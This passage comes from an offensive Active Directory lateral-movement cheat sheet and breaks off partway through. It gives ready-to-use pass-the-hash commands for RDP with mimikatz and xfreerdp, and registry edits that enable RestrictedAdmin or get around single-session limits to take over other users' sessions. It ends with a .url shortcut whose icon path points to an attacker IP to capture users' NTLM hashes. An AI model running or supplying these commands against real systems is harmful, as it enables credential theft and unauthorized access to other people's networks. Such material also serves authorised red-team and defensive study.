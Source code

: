 - [Detailed Mimikatz Guide](https://adsecurity.org/?page_id=1821)
- [Poking Around With 2 lsass Protection Options](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

### **Remote Desktop Protocol**

If the host we want to lateral move to has "RestrictedAdmin" enabled, we can pass the hash using the RDP protocol and get an interactive session without the plaintext password.

- Mimikatz:
    
    ```
    #We execute pass-the-hash using mimikatz and spawn an instance of mstsc.exe with the "/restrictedadmin" flag
    privilege::debug
    sekurlsa::pth /user:<Username> /domain:<DomainName> /ntlm:<NTLMHash> /run:"mstsc.exe /restrictedadmin"#Then just click ok on the RDP dialogue and enjoy an interactive session as the user we impersonated
    ```
    
- xFreeRDP:
    

```
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```

❗ If Restricted Admin mode is disabled on the remote machine we can connect on the host using another tool/protocol like psexec or winrm and enable it by creating the following registry key and setting it's value zero: "HKLM:\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin".

- Bypass "Single Session per User" Restriction

On a domain computer, if you have command execution as the system or local administrator and want an RDP session that another user is already using, you can get around the single session restriction by adding the following registry key:

```
REG ADD "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows NT\\Terminal Services" /v fSingleSessionPerUser /t REG_DWORD /d 0
```

Once you've completed the desired stuff, you can delete the key to reinstate the single-session-per-user restriction.

```
REG DELETE "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows NT\\Terminal Services" /v fSingleSessionPerUse
```

### **URL File Attacks**

- .url file
    
    ```
    [InternetShortcut]
    URL=whatever
    WorkingDirectory=whatever
    IconFile=\\\\<AttackersIp>\\%USERNAME%.icon
    IconIndex=1
    